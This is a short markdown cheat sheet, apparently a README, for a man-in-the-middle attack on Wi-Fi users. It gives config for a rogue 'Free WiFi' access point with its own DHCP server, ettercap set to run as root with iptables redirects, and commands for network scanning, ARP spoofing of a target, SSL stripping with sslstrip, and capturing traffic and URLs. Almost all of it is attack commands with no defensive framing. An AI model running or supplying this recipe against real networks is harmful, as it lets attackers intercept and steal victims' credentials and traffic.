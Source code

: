 # SSL Strip

# add a fix me script, using assets
	./airbase-start.sh
	./rogue-mitm.sh
	sslstrip -f -p -k 10000
	ettercap -p -u -T -q -i at0
	driftnet -i eth0

## Manual Setup

	nano etter.conf
```
[privs]
ec_uid = 0                # nobody is the default
ec_gid = 0                # nobody is the default

# if you use iptables:
redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %por$
redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %po$
```

	nano dhcpd.conf
```
subnet 10.0.0.0 netmask 255.255.255.0 {
option routers 10.0.0.1;
option subnet-mask 255.255.255.0;

option domain-name "Free WiFi";
option domain-name-servers 10.0.0.1;

range 10.0.0.20 10.0.0.50;
}
```

## Commands

	netdiscover

nmap -sS -O {gateway}
	nmap -sS -O 192.168.1.1/24

arpspoof -i {interface} -t {target} -r {gateway}
	arpspoof -i eth0 -t 192.168.1.25 -r 192.168.1.1

sslstrip -f -p -k {port}
	sslstrip -f -p -k 10000

ettercap -p -u -T -q -i {interface}
	ettercap -p -u -T -q -i at0

---

# read strip log
	cat ~/sslstrip.log

# wireshark
	dumpcap -i wlan0

# monitor
	driftnet -i wlan0
	urlsnarf -i wlan0

